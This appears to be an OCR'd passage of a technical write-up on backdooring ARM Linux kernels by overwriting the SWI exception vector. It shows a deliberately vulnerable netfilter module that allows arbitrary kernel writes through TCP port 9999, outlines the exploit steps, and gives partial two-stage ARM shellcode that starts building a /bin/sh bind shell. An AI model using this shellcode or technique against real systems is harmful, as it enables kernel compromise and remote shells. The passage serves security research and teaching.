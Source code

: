 ## Remote scenario
For this example, we will use a netfilter module with a similar vulnerability as the previous one:
```c
    if(ip->protocol == IPPROTO_TCP){
        tcp = (struct tcphdr *)(skb_network_header(skb) + ip_hdrlen(skb));
        currport = ntohs(tcp->dest);
        if((currport == 9999)){
            tcp_data = (char *)((unsigned char *)tcp + (tcp->doff * 4));
            where = ((void **)tcp_data)[0];
            len = ((uint8_t *)(tcp_data + sizeof(where)))[0];
            what = tcp_data + sizeof(where) + sizeof(len);
            memcpy(where, what, len);
        }
    }
```
Just like the previous example, this module has an awesome feature that allows you to write data to anywhere you want. Connect on port tcp/9999 and just give it an address, followed by the size of the data and the actual data to write there. In this case we will also backdoor the kernel by overwriting the SWI exception vector and backdooring the kernel. The code will branch to our shellcode which we will also, as in the previous example, store at *0xffff020*. Overwriting the SWI vector is especially a good idea in this remote scenario because it will allow us to switch from interrupt context to process context. So our backdoor will be executing in a context with a backing process and we will be able to "hijack" this process and overwrite its code segment with a bind shell or connect back shell. But let's not do it that way. Let's check something real quick:  
![cat /proc/self/maps](/images/corrupting_arm_evt/proc_self_maps.png)  
Would you look at that, on top of everything else, the EVT is a shared memory segment. It is executable from user land and writeable from kernel land[^evtnote]. Instead of overwriting the code segment of a process that is making a system call, let's just store our code in the EVT right after our first stage and just return there.
Every system call goes through the SWI vector so we won't have to wait too much for a process to get caught in our trap.

### The Exploit
Our exploit goes:  
    1. Store our first stage and second stage shellcodes at *0xffff0020* (one after the other).  
    2. Overwrite the SWI exception vector with a branch to *0xffff0020*.  
    3. When a system call occurs, our first stage shellcode will set the link register to the address of our second stage shellcode (which is also stored in the EVT and which will be executed from userland), and then return to userland.  
    4. The calling process will "resume execution" at the address of our second stage which is just a bind shell.  

Here is the stage 1-2 shellcode:

```nasm
stage_1:
    adr     lr, stage_2
    push    {lr}
    stmfd   sp!, {r0-r12}
    ldr     r0, =0xe59ff410     @ intial value at 0xffff0008 which is
                                @ ldr     pc, [pc, #1040] ; 0xffff0420
    ldr     r1, =0xffff0008
    str     r0, [r1]
    ldmfd   sp!, {r0-r12, pc}^  @ return to userland

stage_2:
    ldr     r0, =0x6e69622f     @ /bin
    ldr     r1, =0x68732f2f     @ /sh
    eor     r2, r2, r2          @ 0x00000000
    push    {r0, r1, r2}
    mov     r0, sp

    ldr     r4, =0x0000632d     @ -c\x00\x00
```

[^1]: [Vector Rewrite Attack](http:/cansecwest.com/slides07/Vector-Rewrite-Attack.pdf)  
[2]: [Recent ARM Security Improvements](https:/forums.grsecurity.net/viewtopic.php?f=7&t=3292)  
[3]: [Entering an Exception](http:/infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0311d/I30195.html)  
[4]: [SWI handlers](http:/infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.dui0040d/Cacdfeci.html)  
[5]: [ARM Exceptions](http:/osnet.cs.nchu.edu.tw/powpoint/Embedded94_1/Chapter%207%20ARM%20Exceptions.pdf)  
[6]: [Exception and Interrupt Handling in ARM](http:/www.iti.uni-stuttgart.de/~radetzki/Seminar06/08_report.pdf)  